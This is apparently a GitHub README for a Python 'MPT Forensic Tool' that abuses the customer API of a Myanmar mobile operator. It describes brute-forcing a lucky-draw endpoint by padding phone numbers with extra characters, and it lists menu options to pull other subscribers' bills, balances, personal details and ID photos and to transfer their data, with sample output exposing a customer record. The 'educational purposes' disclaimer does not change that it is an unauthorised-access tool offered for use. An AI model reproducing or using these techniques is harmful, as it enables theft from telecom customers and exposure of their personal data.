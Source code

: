 # MPT Forensic Tool**

We, me and **a guy who living in Mogok**, triggered the main bug which could leads to made unlimited lucky draw existed on the
MPT server(mcare.mpt.com.mm). I just thought it was a bug while parsing the value of data type conversion occured when we try to put the user's MSISDN (phone number).

In line number 408, post a URL Parameter as the target phone number which to get a lucky draw like this.
https://mcare.mpt.com.mm/api/services/luckdraw/v1/play/{targetph}

The backend parsed the parameter(targetph=String) like just extract the DIGITS from the parameter and get a random luckydraw process.
But they didnt noticed a situation occured when someone put some random characters in front of the phone number or behind the number.
So we started put some random characters and made requests again and again. Yes its bruteforcing.

_mcare.mpt.com.mm/api/services/luckdraw/v1/play/95942xx00332_ -> can get a luckdraw after purchasing some package or adding some credit to the number.
_mcare.mpt.com.mm/api/services/luckdraw/v1/play/we_put_series_of_char_here_95942xx00332_ -> its passed and start proceeding the luckydraw process as usual.

the bug was patched on September 24, 2019. May be due to thousand of luckydraw bruteforce requests we had made.

But at least we could get all of user information like user id, name, etc.. from the place we got in.
And you can get data package from victim number just pressing Enter button. BUT the victim number CAN BE NOTICED by a sms that would include your phone number u put as Target Number.
I just uploaded it just for educational purposes and I dont want to be in any trouble. so get ur own way.

#### **How to run?**

```shell script
$ python3.7 MPT_Forensic_Tool.py

================================
MPT Forensic Tool
TwizzyIndy 9/2019
================================

1 . Get Bill Info
2 . Get Account Balance List
3 . Get Data Usage on-a-day
4 . Get User Info
5 . Get User ID Photos
6 . Balance Tranfer ( in process )
7 . Data Transfer
8 . Luckydraw Bruteforce (Patched on September 24, 2019)

Enter a number u wish to continue .. : 4
enter phone number : 942xxxx344
{'custId': 0, 'custType': 'Individual Customer', 'custName': 'xxx', 'firstName': None, 'lastName': None, 'salutation': None, 'gender': None, 'birthday': None, 'email': None, 'address': None, 'contactAddr': None, 'contactTel': None, 'city': None, 'custCategory': '', 'hobbies': '', 'maritalStatus': '', 'occupation': None, 'userName': '', 'nickName': '', 'subsPlanName': None, 'certType': '1', 'certNbr': '12/xxxx(n)xxxxxx', 'certTypeName': None, 'custCode': '14998xxx', 'impGradeName': None, 'creditLimit': None, 'fatherName': None, 'nationType': 'Myanmar', 'visaNo': None, 'visaExpireDate': None, 'visaIssueDate': None, 'race': None, 'state': None, 'township': None, 'socialMedia': None, 'secondContactTel': None, 'secondContactEmail': None}


```

put the number and start it. any phone number must be started with 9xxxxxx. **DONT ADD '0'/Zero**.

#### **How can I get the APIs we used?**

I'm not familiar with POSTMAN or any other REST API Clients(but I know what is Fiddler4).
I added MPT_API.paw which could be open on the mac with PAW Client. I would post more APIs here.
AGAIN, Dont put me in trouble.